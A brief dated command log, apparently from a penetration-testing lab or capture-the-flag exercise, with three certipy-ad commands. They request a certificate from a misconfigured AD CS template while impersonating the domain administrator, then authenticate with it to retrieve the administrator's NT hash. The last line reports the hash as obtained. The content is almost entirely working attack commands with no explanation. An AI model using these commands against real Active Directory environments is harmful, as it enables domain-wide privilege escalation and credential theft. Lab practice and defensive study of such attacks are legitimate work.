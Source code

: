 ### 2025-05-12-Sun

```
certipy-ad req -username JOHN.DOE -password 'letmein' -target example.tld -ca EXAMPLE-CA -template EXAMPLEUSER -upn administrator@example.tld -dc-ip 10.129.228.253 -debug
```

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.228.253
```

```
certipy-ad auth -pfx administrator.pfx -domain example.tld -username administrator -dc-ip 10.129.228.253
```

*Got hash for 'administrator@example.tld': LMhash:NThash*

